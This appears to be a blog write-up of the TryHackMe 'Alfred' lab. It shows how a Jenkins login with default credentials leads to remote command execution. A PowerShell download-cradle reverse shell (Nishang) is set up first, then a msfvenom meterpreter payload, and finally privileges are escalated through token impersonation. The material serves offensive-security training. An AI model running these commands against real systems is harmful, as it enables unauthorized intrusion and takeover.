 ```yaml
---
title: "TryHackMe-Alfred" 
layout: post
date: 2020-04-30 21:12
tag:
- Windows
- Meterpreter
- Privilege Escalation
image: /assets/images/pictures/Alfred/Alfred.png
headerImage: true
category: blog
author: DeShaun Ormond
readtime: 5 minutes
---
```


Another common OSCP exam machine, in this Batman themed room, exploit Jenkins by getting a shell with powershell, then escalate your privileges by exploiting Windows authentication tokens.

You can access this room here: [Alfred](https://tryhackme.com/room/alfred)


__This room requires a TryHackMe subscription to join__

## Table of Contents

- [Task 1: Initial Access](#initial-access)
- [Task 2: Switching Shells](#switching-shells)
- [Task 3: Privilege Escalation](#privilege-escalation)


### Initial Access

**Let's Begin!**


**Question 1: How many ports are open?**
  
Deploy the box and run a nmap scan! Since the box doesnt respond to ping scans include the -Pn tag. 

~~~
nmap -sC -sV <boxip> -Pn 
~~~

10.10.51.179


<<<<<<< HEAD
 ![nmap_scan](https://ormond5.github.io/MyBlog/pictures/Alfred/nmap.png)
=======
 ![nmap_scan](https://ormond5.github.io/MyBlog/assets/images/pictures/Alfred/nmap.png)
>>>>>>> b22af85fd09c889cb4ed3c9e883757f2348a84ff

Our nmap scan shows 3 ports running on this box. Therefore we have our first answer. 

{: .box-success}
**Flag 1 :** X 

**Quesiton 2: What is the username and password for the log in panel(in the format username:password)**

From the nmap scan we see that we have two http services running. Navigate to the webserver on port 8080. You will see a login page. what are the chances that the manager didnt change the default credentials... let's try admin for both username and password

![admin](https://ormond5.github.io/MyBlog/pictures/Alfred/adminlogin.png)

We are in and we found our next flag! 

 {: .box-success}
**Flag=** admin:admin


**Question 3: Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it** 

The next question tells us to look for a tool that allows us to execute commands. After some clicking and snooping around you will find a place where you can input commands. 

![flag3](/pictures/Alfred/projectbuild.png)

Replace 'whoami' with the command below and click apply and save. 
~~~
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port 1234
~~~

Before we go any further, set up a netcat listening sesison on the port you have chosen above. 
~~~
nc -lnvp <1234>
~~~

 Then if you have not already you will need to download Nishang's Invoke PowerShellTcp script. 

```
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1 

```

You also need to start up a web server, python allows for us to do this easily buy just running a simple command:

~~~
python3 -m http.server 
~~~

![httpserver](/pictures/Alfred/python-httpserver.png)


All together your terminals should look like this:

![tmux](/pictures/Alfred/tmux0.png)


Once you have the Powershell Script downloaded and the http server running navigate back to the project menu and select build. 

![build](/pictures/Alfred/Build.png)

Go back to your terminal and you should see on the python http server the victim ip reaching out and getting our Powershell script. Along with a shell opening up on your listening shell! 

![tmux1](/pictures/Alfred/tmux.png)

Once you are in, navigate to bill's Desktop directory and obtain the flag. 

~~~
PS C:\Users\bruce\Desktop> type user txt
~~~

{: .box-success}
**Flag:** XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX


### Switching Shells

The next task instructs us to switch to a meterpreter shell to allow for easier privilege escalation. They give us a command to create a windows meterpreter revese shell to use. 

~~~
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder 
      x86/shikata_ga_nai LHOST=<IP> LPORT=5555 -f exe -o alfred.exe
~~~

Open a new terminal and run the command above. I set the listening port on port 5555 and set the shell name to alfred.exe. Download that and you get our only flag

![msfvenom](/pictures/Alfred/msfvenom.png)

{: .box-success}
**Flag:** XXXXX

Open up another listening session for port 5555
~~~
nc -lnvp 5555
~~~

Looking back at the room, it tells us also to create a payload to upload to the victim's machine. We will enter this in the same place we entered the last place where we entered the commands on the website. 

~~~
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/alfred.exe','alfred.exe')"
~~~

Once you have saved and applied the new changes, navigate back to the projects page and select 'Build'. 

You may have to cancel the previous exploit, which will kick you out. Don't worry! Run the command and then re-run task 1 to get back in. 

![build](/pictures/Alfred/Build.png)


Once you get back in, you should see alfred.exe in your current directory. and run the command: 

```
Start-Process alfred.exe
```
This should spawn a meterpreter shell on your newest listening shell! 


### Privilege Escalation


"Now that we have initial access, let's use token impersonation to gain system access." 


Read the information on Windows tokens then come back when you are ready to move one. 

**Question 1: View all the privileges using whomai /priv**

In your first shell run the command: 

~~~
'whoami /priv' 
~~~
![priv](/pictures/Alfred/privilege.png)

We see two of the most commonly abused privileges are enbabled! In your metasploit shell enter the command: 

~~~
load incognito
list_tokens -g
~~~

"Load incognito" will allow us to exploit this vulnerability and "list_tokens -g" will show us which tokens are available. Once we see which tokens are avaliable we can impersonate the one with the highest privilege "BUILTIN\Adminstrators" 

![incognito](/pictures/Alfred/task3-2.png)

![impersonate](/pictures/Alfred/Task3-flag3.png)

```
Run getuid command to get the next flag
```

{: .box-success}
**FLAG: XX XXXXXXXXXXXXXX** 


The last step instructs us to switch process so that we may permissions of a privileged user. Right now we just have elevated privileges. Run the commands below and search for PID for services.exe. 

~~~
meterpreter> ps
~~~

Once you have found the PID number, migrate to the PID to obtain privileged user permissions 

![final flag](/pictures/Alfred/FinalFlag.png)



Congrats!! You have completed this room!  
<p align="center">
  <img src="https://media.giphy.com/media/14iPmDWiwIkyk0/giphy.gif">
</p>

 

